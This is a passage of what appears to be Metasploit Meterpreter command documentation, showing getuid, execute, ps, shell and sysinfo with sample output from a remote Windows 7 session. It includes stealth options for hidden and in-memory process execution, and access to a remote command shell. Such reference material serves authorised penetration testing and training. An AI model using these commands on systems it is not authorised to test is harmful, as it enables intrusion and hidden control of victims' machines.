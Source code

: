 The command ```ipconfig``` is an alias for ```ifconfig```.

**getuid command**

The ```getuid``` command shows you the current user that the payload is running as:

```
meterpreter > getuid
Server username: WIN-6NH0Q8CJQVM\user
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following example will spawn a calculator:

```
meterpreter > execute -f calc.exe
Process 2076 created.
```

To pass an argument, use the ```-a``` flag:

```
meterpreter > execute -f iexplore.exe -a https://metasploit.com
Process 2016 created.
```

There are some options you can see to add more stealth. For example, you can use the ```-H``` flag
to create the process hidden from view. You can also use the ```-m``` flag to execute from memory.

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt. Example:

```
meterpreter > shell
Process 3576 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\user\Desktop>
```

To switch back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo command**

The ```sysinfo``` command shows you basic information about the remote machine. Example:

```
meterpreter > sysinfo
Computer        : WIN-6NH0Q8CJQVM
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```
